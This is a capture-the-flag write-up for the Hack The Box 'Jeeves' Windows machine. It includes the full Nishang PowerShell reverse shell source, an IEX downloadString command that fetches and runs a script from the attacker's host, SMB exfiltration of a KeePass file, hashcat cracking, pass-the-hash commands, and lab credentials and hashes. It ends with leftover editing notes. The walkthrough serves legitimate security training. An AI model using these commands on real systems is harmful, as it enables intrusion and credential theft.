



# Jeeves
| Details       | Values                                                                                                         |
|---------------|---------------------------------------------------------------------------------------------------------------|
| Platform      | Hack The Box                                                                                                  |
| Machine       | Jeeves                                                                                                        |
| Difficulty    | Easy                                                                                                          |
| OS            | Windows                                                                                                       |
| Key Skills    | Web Enumeration, Jenkins Groovy Script Console RCE, PowerShell Empire Stager, KeePass Database Cracking, Pass-the-Hash, NTFS Alternate Data Streams (ADS) |
| Tools Used    | nmap, feroxbuster, impacket-smbserver, keepass2john, hashcat, pth-winexe                                       |

## Overview
Jeeves is a Windows machine that features a Jenkins server vulnerable to arbitrary Groovy script execution, leading to initial foothold. Privilege escalation involves discovering a hidden KeePass database password via NTFS Alternate Data Streams (ADS), cracking the database, and using the extracted administrator credentials to gain a shell via Pass-the-Hash.

## 1. Reconnaissance

### 1.1 Nmap Enumeration

I began with an Nmap scan to enumerate open ports and services.

```bash
nmap -sC -sV -T4 -oN scan.txt $ip
```

**Findings:**
- **Port 80:** HTTP - Microsoft IIS httpd
- **Port 135, 139, 445:** MSRPC, NetBIOS, SMB (Standard Windows services)
- **Port 50000:** HTTP - Jetty 9.4.z-SNAPSHOT
    - _This unusual port running a Java-based web server was the primary attack vector._


## 2. Enumeration

### 2.1 Web Enumeration (Port 50000)
Browsing to port `50000` revealed a Jenkins dashboard. Since no login was required, I proceeded with directory brute-forcing to find hidden paths using `feroxbuster`.

```bash
feroxbuster -u http://$ip:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


The scan discovered the `/askjeeves` path. Visiting this URL led to the same Jenkins dashboard, confirming anonymous access was granted.


### 2.2 Discovering the Vulnerability
Within the Jenkins dashboard, I navigated to **Manage Jenkins > Script Console**. This console allows authorized users to execute arbitrary Groovy scripts, which in this case included our anonymously accessed user.


## 3. Initial Foothold / Exploitation

### 3.1 Groovy Script Console to RCE

A test command confirmed code execution was possible.
```groovy
cmd = "whoami"
println cmd.execute().txt
```


### 3.2 PowerShell Reverse Shell
To gain a stable shell, I used a PowerShell reverse shell script from the **Nishang** project.

1. **Clone Nishang:**
    ```bash
       git clone https://github.com/samratashok/nishang.git /opt/nishang
    ```
    
2. **Modify the Script:** I used `Invoke-PowerShellTcp.ps1` and appended the following line to the bottom to execute the reverse shell immediately:
```powershell
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```
```bash
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.10 -Port 8001
```

3. **Host the Script:** I started a Python web server to host the modified script.
    
    ```bash
       python3 -m http.server 80
    ```
    
4. **Execute the Stager:** I used the Jenkins Script Console to download and execute the PowerShell script in memory.
    
    ```groovy
        cmd = """powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.10:80/Invoke-PowerShellTcp.ps1')""""
        println cmd.execute().text
    ```
   
5. **Catch the Shell:** I started a Netcat listener to catch the incoming connection.
    
    ```bash
        nc -lvnp 8001
    ```


### 3.3 User Flag
The user flag was located in `kohsuke`'s desktop directory.
```bash
e3232272596fb47950d59c4cf1e7066a
```

## 4. Privilege Escalation

### 4.1 Host Enumeration & KeePass Discovery
I used `PowerUp.ps1` from PowerSploit to automate privilege escalation checks.

1. **Download and Execute PowerUp:**

    ```bash
    git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
    ```
    Copy the `PowerUp.ps1` from the `privesc`  Directory and set a http server then download it to the target.
    
    ```bash
    # Setting the python3 sampleHttpServer
    python3 -m http.server 8000
    
    ## Copy the PowerUp.ps1 to the target machine with the already user access using the IEX WebClient
    IEX(New-Object Net.WebClient).downloadString('http://10.10.16.16:8000/PowerUp.ps1')
    ```
    After run the Command at the bottom of the script `Invokde-AllChecks`
    


2. **Discover KeePass File:** Manual enumeration of the `Documents` folder under the `kohsuke` user revealed a KeePass database file (`CEH.kdbx`), suggesting stored credentials might be present.  
    

### 4.2 Transferring the KeePass File

I used `impacket-smbserver` to transfer the file to my attacker machine.

1. **Start SMB Server (Attacker):**
```bash
impacket-smbserver PleaseSubscribe 'pwd'
impacket-smbserver PleaseSubscribe $(pwd) -smb2support
```
2. **Map Drive & Copy File (Target):**
The smb server is listening on the attacker box with the `PleaseSubscribe` that anyone can write to.
On the victim machine, run the following.

```powershell
New-PSDrive -Name "FollowOnX" -PSProvider "FileSystem" -Root "\\10.10.16.16\PleaseSubscribe"
copy CEH.kdbx FollowOnX:\
```


## OR 
Navigate to the folder
```bash
PS C:\Users\kohsuke\Documents> cd FollowOnX:
PS FollowOnX:\> 
```
Now, copy the file `CEH.kdbx` to the shared smb folder and access it on the attacker machine.

```bash
cp C:\Users\kohsuke\Documents\CEH.kdbx .
```
The file is copied to the attacker machine successfully.


### 4.3 Cracking the KeePass Database

1. **Extract Hash:** I used `keepass2john` to extract the crackable hash from the database.

After running `keepass2john` on **CEH.kdbx**, Extracted the hash and successfully cracked it using `hashcat`. The recovered password, `moonshine1`, was then used to access the KeePass database by running:
```bash
keepass2john CEH.kdbx > keepass.hash
```
2. **Crack the Password:** I used `hashcat` with the `rockyou.txt` wordlist to crack the password.
   ```bash
       hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
   ```
3. **Password Found:** The password was successfully cracked: `moonshine1`.
    
4. **Access Database:** I opened the database in KeePass using the password `moonshine1` and discovered the administrator password: `S1TjAtJHKsugh9oC4VZl`.  

    

### 4.4 Pass-the-Hash to Administrator

The KeePass database also contained an NTLM hash for another account. Standard password authentication failed, so I used the Pass-the-Hash technique with `pth-winexe` to gain command execution as the `administrator`.

```bash
➜  jeeves-10.129.45.32 cat password.txt                    
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: password.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ administrator:S1TjAtJHKsugh9oC4VZl
   2   │ NTLM HASH:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
Using `winexe` to login to smb

```bash
/usr/bin/winexe -U jenkins\administrator //10.129.45.32 cmd.exe
```
Password for [WORKGROUP\jenkinsadministrator]: <pass>

It did not work. Let's try PASS the NTLM Hash
```bash
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd.exe

## or try
/usr/bin/pth-winexe -U jenkins/administrator //10.129.45.32 cmd.exe
```


Upon accessing the Administrator desktop, a file named `**hm.txt**` was discovered and initially assumed it contained the root flag. However, after opening it, realized that was not the case. The file itself hinted to dig deeper.

### 4.5 Root Flag via Alternate Data Stream (ADS)
On the Administrator's desktop, a file named `hm.txt` was empty. Knowing that Windows NTFS supports Alternate Data Streams (ADS) for hiding data, I used `dir /r` to discover a hidden stream named `root.txt`.

```bash
C:\Users\Administrator\Desktop>dir /r
```


I used PowerShell to read the contents of the hidden stream, revealing the root flag.
```bash
powershell (Get-Content hm.txt -Stream root.txt)
```
## Root flag
```bash
afbc5bd4b615a60648cec41c6ac92530
```


## 5. Conclusion & Lessons Learned

- **Vulnerability:** The primary issue was improperly configured Jenkins authentication, allowing anonymous users to execute code on the underlying system.
- 
- **PrivEsc Vector:** Hardcoded credentials stored in a KeePass file, protected by a weak password, led to full domain compromise.
    
- **Defensive Takeaways:**
    
    1. **Principle of Least Privilege:** Jenkins should never run with high privileges. Always use a dedicated, low-privileged service account.
    2. **Strong Authentication:** Never leave services like Jenkins exposed with anonymous or weak access.
    3. **Credential Management:** Avoid storing passwords in easily accessible files. Use strong, unique passwords for password managers.
    4. **Monitoring:** Monitor for anomalous processes like `powershell` making network connections, which is a common indicator of compromise.
        
- **Offensive Takeaways:** This box reinforced the importance of thorough enumeration (SMB, unusual ports), the power of living-off-the-land techniques (PowerShell, ADS), and the necessity of checking for password reuse and credential storage.
    

---

### Key Improvements in this Version:

1. **Professional Structure:** Added a metadata header and clear, phased sections (Recon, Enum, Exploit, PrivEsc) that hiring managers expect.
2. **Focused Commentary:** Replaced play-by-play with strategic explanations (_why_ a step was taken, not just _what_ was done).
3. **Clarity and Flow:** Commands are neatly formatted in code blocks, and the narrative guides the reader through the thought process.
4. **Action-Oriented Language:** Uses strong verbs like "Discovered," "Executed," "Transferred," which sound more professional.
5. **Conclusion:** Adds significant value by summarizing the vulnerabilities and key takeaways, demonstrating deep understanding.
